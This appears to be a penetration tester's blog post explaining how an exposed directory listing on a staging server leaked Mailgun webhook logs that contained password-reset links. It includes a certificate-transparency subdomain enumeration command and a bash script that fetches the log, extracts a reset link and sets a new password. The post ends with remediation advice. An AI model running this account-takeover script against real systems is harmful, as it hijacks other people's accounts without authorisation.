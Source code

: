 ```yaml
---
title: "Directory Listing to Account Takeover"
date: 2017-12-30T01:19:34-08:00
draft: false
---
```


Directory listing is one of the most common misconfigurations which can be exploited trivially. However, the impact depends on the [criticality of](https://www.itnews.com.au/news/australias-biggest-data-breach-sees-13m-records-leaked-440305) [the files](https://www.troyhunt.com/the-capgemini-leak-of-michael-page-data-via-publicly-facing-database-backup/) present inside the directory.

Recently, during one of my pentests, I came across an interesting open directory which I was able to leverage. On enumerating, I discovered a subdomain which was the staging server and was accessible over the internet.

```bash
[nishaanthguna:~/essentials]$ curl --silent https://crt.sh/\?q\=%.domain.com | sed 's/<\/\?[^>]\+>//g' | grep -i domain.com | tail -n +9 | cut -d ">" -f2 | cut -d "<" -f1
www.domain.com
blog.domain.com
stag.domain.com
```

On running a port scan, it was found that the port 8080 was open and had a directory listing. There wasn't anything sensitive until I found this.

![mailgun](/images/mailgun.png)

From Mailgun's API [documentation](https://documentation.mailgun.com/en/latest/user_manual.html), it looks like the admininstator can track the  [bounces](https://documentation.mailgun.com/en/latest/user_manual.html#tracking-bounces), [clicks](https://documentation.mailgun.com/en/latest/user_manual.html#tracking-opens), [spam compliants](https://documentation.mailgun.com/en/latest/user_manual.html#tracking-spam-complaints), if the mail got [delivered](https://documentation.mailgun.com/en/latest/user_manual.html#tracking-deliveries) or if the user
[unsubscribed](https://documentation.mailgun.com/en/latest/user_manual.html#tracking-unsubscribes) along with the URLs. So, what is the problem here?

Not only the logs leaked personal and developer e-mail addresses, it also did have the reset password links. Something like this,

![reset](/images/reset-link.png)

An attack scenario would be something similar to,

1. An attacker uses the e-mail address obtained from the logs and resets the password using 'Forgot Password' functionality.
2. The victim clicks on the link sent to their e-mail address.
3. The Attacker gets hold of the password reset token because of the directory listing and resets the password.


I wrote a quick script to curl the mailgun-webhook.log file, search for reset links and automatically reset the password.

```bash
#!/bin/bash

curl https://domain.com/mailgun-webhook.log | tee direct.txt
if grep -Fxq "reset" direct.txt
then
 echo "[+]Found a Password Reset link"
 link=$(cat direct.txt | grep -i reset | cut -d "," -f6  |
 cut -d "\\" -f1 | head -n 1)
 curl '$link'-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6)'
 --data 'password=testpassword%21%21&confirmation=testpassword%21%21' --compressed
 echo "[+]Password changed to testpassword!!"
else
 echo "[-]Reset link not found"
fi
```

It is always recommended to [disable](https://stackoverflow.com/questions/2530372/how-do-i-disable-directory-browsing) directory listing and never store sensitive information like credentials, password reset links, API keys in cleartext.

Update - Some people are confusing this vulnerability with the recent [Reddit Email](https://gizmodo.com/reddit-email-vulnerability-leads-to-thousands-of-dollar-1821808073) [Vulnerability](http://blog.mailgun.com/mailgun-security-incident-and-important-customer-information/) which was used to steal Bitcoin Cash. Both of the vulnerabilities are completely unrelated except for the fact that accounts were compromised in a similar fashion. 
